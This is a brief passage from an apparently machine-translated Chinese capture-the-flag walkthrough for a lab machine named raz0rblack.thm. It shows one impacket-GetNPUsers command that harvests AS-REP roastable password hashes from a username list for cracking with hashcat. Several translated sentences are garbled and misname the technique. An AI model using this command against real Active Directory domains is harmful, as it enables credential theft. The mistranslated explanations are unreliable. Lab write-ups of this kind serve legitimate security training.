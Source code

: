 ![](img/763404ebe4a3c9dca94eaaac9dc98375.png)

这些就是用户！！让我们首先从一个重播攻击开始

➡️代表烘烤攻击

```
impacket-GetNPUsers raz0rblack.thm/ -usersfile usernames.txt -format hashcat
```

![](img/33d5cba776b4e8ae214107685444394e.png)

我们为威廉姆提供预订

让我们用 hashcat 来破解它

![](img/f9a0c9237d0a228674dd1bf26d8dce8e.png)
